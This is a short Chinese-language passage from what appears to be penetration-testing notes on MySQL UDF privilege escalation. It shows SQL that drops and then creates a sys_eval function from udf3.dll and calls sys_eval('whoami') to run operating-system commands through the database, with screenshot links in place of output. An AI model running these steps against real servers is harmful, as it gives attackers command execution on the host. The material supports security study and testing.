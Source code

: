 - 根据`udf3.dll`，创建`自定义函数`

1.根据udf文件内容，`选择`使用哪个函数

![image-20241030160558621](./assets/image-20241030160558621.png)

2.确认所使用函数是否存在，若存在，则考虑换另一个函数，或者删除该函数

```sql
#删除函数语句
DROP FUNCTION sys_eval;
```

![image-20241030160640990](./assets/image-20241030160640990.png)

```sql
# 创建自定义函数
create function sys_eval returns string soname 'udf3.dll';
```

![image-20241030160702454](./assets/image-20241030160702454.png)

通过自定义函数，执行相应系统功能

```sql
select sys_eval('whoami');
```

![image-20241030160724812](./assets/image-20241030160724812.png)